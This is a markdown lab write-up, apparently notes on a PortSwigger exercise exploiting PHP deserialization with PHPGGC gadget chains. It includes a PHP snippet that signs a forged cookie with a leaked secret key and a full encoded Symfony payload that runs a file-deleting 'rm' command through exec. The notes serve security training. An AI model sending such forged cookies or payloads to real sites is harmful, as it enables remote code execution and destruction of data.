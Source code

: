 ## PHP Generic Gadget chains
for php based site we use `PHP Generic Gadget Chains(PHPGGC)`
[lab portswigger ](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-php-deserialization-with-a-pre-built-gadget-chain)
- exploitation: identify the target framework, and use third party tool to generate malicious serialized object, `generate valid signed cookie` containing malicious `object` 
- if we modify the token we got `500` internal server error at some point and this gives us `version number and which framework is used by application`
```
Internal Server Error: Symfony Version: 4.3.6</p>
                    <p class=is-warning>PHP Fatal error:  Uncaught Exception: Signature does not match session in /var/www/index.php:7
Stack trace:
#0 {main}
  thrown in /var/www/index.php on line 7</p>
 <!-- <a href=/cgi-bin/phpinfo.php>Debug</a> -->
```
here developer comment disclose `debug` page 
- from `debug` page we got `SECRET_KEY` in `Enviornment`
- `SECRET_KEY: key(eg: oy93ozy4qspj3ywruamc3j9bww7xl3kn)` this we use to sign our object in serialization
- we use `phpggc` to create serialize object for gadget chain
create signed cookie so cant get error in server side
```php
<?php  
$object = "OBJECT-GENERATED-BY-PHPGGC";  
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";  
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');  
echo $cookie;
```
final payload looks like
```
%7B%22token%22%3A%22Tzo0NzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxUYWdBd2FyZUFkYXB0ZXIiOjI6e3M6NTc6IgBTeW  
1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXFRhZ0F3YXJlQWRhcHRlcgBkZWZlcnJlZCI7YToxOntpOjA7TzozMzoiU3ltZm9ueVxDb21w  
b25lbnRcQ2FjaGVcQ2FjaGVJdGVtIjoyOntzOjExOiIAKgBwb29sSGFzaCI7aToxO3M6MTI6IgAqAGlubmVySXRlbSI7czoyNjoicm0gL2hvbW  
UvY2FybG9zL21vcmFsZS50eHQiO319czo1MzoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcVGFnQXdhcmVBZGFwdGVyAHBvb2wi  
O086NDQ6IlN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcUHJveHlBZGFwdGVyIjoyOntzOjU0OiIAU3ltZm9ueVxDb21wb25lbnRcQ2  
FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAcG9vbEhhc2giO2k6MTtzOjU4OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94  
eUFkYXB0ZXIAc2V0SW5uZXJJdGVtIjtzOjQ6ImV4ZWMiO319Cg%3D%3D%22%2C%22sig_hmac_sha1%22%3A%225f56810b37c66cbcbfb39b6  
e6215c2cb088eff10%22%7D
```

## Working With Documented Gadget Chains
- try to search or look at internet to see if there are any documented exploits are present, that we adapt to attack our target, even if there no dedicated tool for automatically generating serialized object, but we still find documented gadget chains for popular frameworks and adapt them manually.
